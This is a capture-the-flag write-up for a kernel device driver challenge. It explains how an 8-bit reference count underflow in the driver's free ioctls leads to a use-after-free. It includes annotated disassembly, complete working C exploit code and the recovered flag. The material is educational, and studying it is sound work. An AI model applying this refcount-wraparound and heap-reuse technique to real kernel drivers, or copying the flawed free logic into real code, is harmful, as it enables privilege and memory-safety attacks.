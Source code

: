 # Binary exploit 4

We're given the object file of a kernel device driver responsible for a unique
character device accessed through /dev/flag, along with the appropriate header
file for issuing ioctl requests to that device.

The character device can be opened, read, or written to, as well as controlled
using ioctl requests. Writes to the device are ignored by the driver, and reads
return data from a message buffer, initially containing the message "Welcome to
the flag verification service.", but after a successful exploit, the message
will contain the flag.

It appears that the "intended" use of this device is for it to manage two
copies of the flag, a "kernelflag", which is the secret version, known only to
the kernel, and a "userflag", given by userspace. The ioctls allow for loading
and unloading both the kernelflag and the userflag, and a VERIFYFLAG ioctl
should compare the two.


This challenge gave me a lot of grief. I started out by analyzing a disassembly
of the object file, coming up with a strategy to attack the problem. It appears
that when called with the KERNELFLAGLOAD ioctl, the code _in the object file_
would decrypt an encrypted copy of the flag in the kernel, and store it in
plaintext in memory. My plan was to run the emulator with a breakpoint at some
point in kernelspace after that decryption took place, and then to examine the
emulator memory dump looking for the decrypted flag. When I hit the breakpoint
and the emulator dumped a partial disassembly, it didn't match the disassembly
I was looking at from the object file.

I finally decided to disassemble the whole kernel image instead, and to my
surprise, the code there is subtly different from that in the object file. Back
to square one then ...


## Analyzing the kernel code

In the _real_ copy of the code, the KERNELFLAGLOAD request doesn't do any
decryption at all, but simply (more or less) copies the encrypted kernel flag
from the initialized data segment to a dynamic memory allocation. Similarly,
the USERFLAGLOAD request copies the supplied flag to a dynamically allocated
buffer, and the crypto doesn't happen until the VERIFYFLAG request is called.

There's a catch to accessing the decryption portion of the code, though. The
USERFLAGLOAD request checks that the flag is of a certain length and that it
starts with "FE{" before storing it:

```
8003add4: 40650000  mov     a0, s0              ; Flag given from userspace
8003add8: 477f800c  add     ra, ip,12           ; call strlen(arg)
8003addc: 872328e2  movi    at0, 0x0000651c     ; ...
8003ade0: 8f3fffb0  addi    at0, 0xfffd0000     ; ...
8003ade4: 47fff200  jmp     ip+at0              ; ...
8003ade8: 83c01fe0  movi    t0, 0x000000ff
8003adec: 606f0080  and     a0, t0 shl (zz + 0)
8003adf0: b8658147  cjmpne  a0,s1,0x8003ae18    ; branch to "unable to load flag" if (strlen & 0xff) != 50

8003adf4: 8091c820  movi    a1, 0x00008e41      ; STRING: "FE{"
8003adf8: 88880071  addi    a1, 0x80060000      ; ...
8003adfc: 40a00003  add     a2, zz,3
8003ae00: 40650000  mov     a0, s0
8003ae04: 477f800c  add     ra, ip,12           ; call strncmp(arg, "FE{", 3)
8003ae08: 87234fe2  movi    at0, 0x000069fc     ; ...
8003ae0c: 8f3fffb0  addi    at0, 0xfffd0000     ; ...
8003ae10: 47fff200  jmp     ip+at0              ; ...
8003ae14: b86014e3  cjmpeq  a0,zz,0x8003b0b0    ; branch if strncmp == 0 (i.e. string starts with "FE{")
                                                ; else

8003ae18: 8067c0e2  movi    a0, 0x0000f81c      ; STRING: "%sUnable to load your flag."
8003ae1c: 88680071  addi    a0, 0x80060000      ; ...
8003ae20: 809fe660  movi    a1, 0x0000ff33      ; STRING: "\e[34;1m=\e[32;1m*\e[34;1m= \e[m"
8003ae24: 88880071  addi    a1, 0x80060000      ; ...
8003ae28: 477f800c  add     ra, ip,12
8003ae2c: 872205e2  movi    at0, 0x000040bc
8003ae30: 8f3fffb0  addi    at0, 0xfffd0000
8003ae34: 47fff200  jmp     ip+at0              ; call printk
8003ae38: 406000ea  add     a0, zz,-22
8003ae3c: b8000ec3  jmp     0x8003b014          ; jmp to exit
```

The VERIFYFLAG request compares the stored userflag against the stored (and
encrypted) kernelflag before continuing, so because the userflag must start
with "FE{" and the encrypted kernelflag does not, at first glance, it appears
to be impossible to bypass that check and get anywhere near getting the crypto
code executed:

```
8003ae88: 83c27163  movi    t0, 0x00009c58      ; userflagRefCnt
8003ae8c: 8bd000f0  addi    t0, 0x80070000      ; ...
8003ae90: 03ef0000  ldb     t1, [t0+0]
8003ae94: 43c00001  add     t0, zz,1
8003ae98: bbef0a67  cjmpne  t1,t0,0x8003afe4    ; branch if refcnt != 1 to "Verification fail, no flag loaded." error

8003ae9c: 83e09c65  movi    t1, 0x00009c60      ; kernelflagRefCnt
8003aea0: 8bf000f0  addi    t1, 0x80070000      ; ...
8003aea4: 03ef8000  ldb     t1, [t1+0]
8003aea8: bbef0a47  cjmpne  t1,t0,0x8003aff0    ; branch if refcnt != 1 to "Verification fail, no solution flag loaded." error

8003aeac: 83c4e322  movi    t0, 0x00009c64      ; kernelflag
8003aeb0: 8bd000f0  addi    t0, 0x80070000      ; ...
8003aeb4: 108f0000  ldw     a1, [t0+0]
8003aeb8: 83c4e2e2  movi    t0, 0x00009c5c      ; userflag
8003aebc: 8bd000f0  addi    t0, 0x80070000      ; ...
8003aec0: 106f0000  ldw     a0, [t0+0]
8003aec4: 40a00032  add     a2, zz,50
8003aec8: 477f800c  add     ra, ip,12           ; call strncmp(userflag, kernelflag, 50)
8003aecc: 8721a4e3  movi    at0, 0x00006938     ; ...
8003aed0: 8f3fffb0  addi    at0, 0xfffd0000     ; ...
8003aed4: 47fff200  jmp     ip+at0              ; ...

8003aed8: b8601023  cjmpeq  a0,zz,0x8003b0dc    ; jmp to success ("You rock!" message) if strncmp == 0
8003aedc: 806114a1  movi    a0, 0x0000114a      ; STRING: "%sVerification failed. Flags do not match."
8003aee0: 887000f0  addi    a0, 0x80070000      ; ...
8003aee4: b80008a3  jmp     0x8003aff8          ; jump to error output and exit
```


## The use-after-free error

In addition to the dynamically allocated strings, the kernel module also
maintains a reference count to both flags in an unsigned char (8-bit) variable.
When issuing the XXXFLAGLOAD ioctl request, the appropriate refcount is
checked, and the request fails if the refcount is already 1, otherwise memory
is allocated, the flag is copied, and the refcount is incremented. The
XXXFLAGFREE requests, however, contain a flaw in the reference counting,
essentially coded like this:

```
if (flagRefCount == 1) {
	kfree(flag);
}
flagRefCount--;
``

When calling the XXXFLAGFREE ioctl request, the reference count is always
decremented. If it was 1, the memory is freed, but the pointer is not cleared.
If the reference count was 0, it's decremented and wraps around to 255. We can
keep decrementing it until it reaches 1 again, indicating that a valid flag is
loaded, but the memory that the flag variable points to is no longer valid. We
can use this to make the two flags equal: First we load the kernelflag, then
free it a bunch of times until the refcount is 1 again, then load a dummy
userflag. The memory allocation that is made to store a copy of the userflag
will be for the exact same size as the block just freed by the kernelflag, so
now userflag and kernelflag point to the same string in memory. The verifyflag
request will succeed, and we get the flag.

C code to exploit the bug:

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <unistd.h>

#include "devflag.h"

/* The flag argument MUST be 50 characters long, and MUST start with "FE{".
 * Other than that, it can be anything. */

const char dummy_userflag[] = "FE{1234567890123456789012345678901234567890123456}";

int main(int argc, char **argv)
{
        int fd = open("/dev/flag", O_RDWR);

        ioctl(fd, KERNELFLAGLOAD, NULL); /* refcnt = 1 */
        ioctl(fd, KERNELFLAGFREE, NULL); /* refcnt = 0 */
        ioctl(fd, KERNELFLAGFREE, NULL); /* refcnt = 0xFF */

        for (int refcnt = 0xFF; refcnt != 1; --refcnt) {
                ioctl(fd, KERNELFLAGFREE, NULL); /* refcnt = 0xFE .. 1 */
        }

        /* Now the kernelflag's refcount is back to 1 again, but the kernelflag
         * variable points to a free'd area of memory. When we load the dummy
         * userflag again, the kernel module will allocate a new 50-byte chunk
         * of memory for its copy o the userflag, but it will be given the same
         * chunk as the kernelflag previously held and still points to.
         *
         * After the dummy userflag is loaded, both the userflag and kernelflag
         * point to the same address in memory, so they will compare as equal,
         * and the VERIFYFLAG ioctl will allow us to continue and collect the
         * flag.
         */

        ioctl(fd, USERFLAGLOAD, dummy_userflag);
        ioctl(fd, VERIFYFLAG, NULL);

        char buffer[51];
        read(fd, buffer, sizeof(buffer));
        printf("%s\n", buffer);
}
```

Running it shows we hit the expected "You rock!", and the character device now
allows the decrypted flag to be read out.

```
hacker@sphinx # ./exploit-refcount
=*= Flag loaded for verification
=*= You rock!
FE{S3crets_0f_th3_sph1nx_4nd_the_tri4ls_of_fenix!}
```


---
_Peter Tirsek, 2020-01-21_

